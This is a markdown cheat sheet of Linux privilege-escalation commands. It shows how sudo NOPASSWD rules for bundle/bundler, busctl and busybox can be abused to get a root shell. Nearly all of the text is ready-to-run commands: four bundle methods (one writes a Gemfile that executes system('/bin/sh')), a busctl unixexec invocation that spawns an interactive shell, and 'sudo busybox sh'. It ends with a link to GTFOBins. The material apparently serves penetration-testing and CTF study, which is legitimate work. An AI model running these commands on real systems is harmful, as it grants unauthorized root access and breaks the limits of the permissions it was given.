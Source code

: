 ## bundle
> (root) NOPASSWD: /usr/local/bin/bundle<br>
> (root) NOPASSWD: /usr/local/bin/bundler
- Method 1
```bash
TF=$(mktemp -d)
touch $TF/Gemfile
cd $TF
sudo bundle exec /bin/sh
```
- Method 2
```bash
export BUNDLE_GEMFILE=x
sudo bundle exec /bin/sh
```
- Method 3
```bash
TF=$(mktemp -d)
touch $TF/Gemfile
cd $TF
sudo bundle console
```
After that type `system('/bin/sh -c /bin/sh')` on bundle console

- Method 4
```bash
TF=$(mktemp -d)
echo 'system("/bin/sh")' > $TF/Gemfile
cd $TF
sudo bundle install
```

## busctl
> (root) NOPASSWD: /usr/bin/busctl
```bash
sudo busctl set-property org.freedesktop.systemd1 /org/freedesktop/systemd1 org.freedesktop.systemd1.Manager LogLevel s debug --address=unixexec:path=/bin/sh,argv1=-c,argv2='/bin/sh -i 0<&2 1>&2'
<!-- ------------------------------------------- -->
```
## busybox
> (root) NOPASSWD: /usr/bin/busybox
```bash
sudo busybox sh
```
## GTFOBins
For more commands to be exploited, go to [GTFOBins](https://gtfobins.github.io/#+shell%20+Sudo)
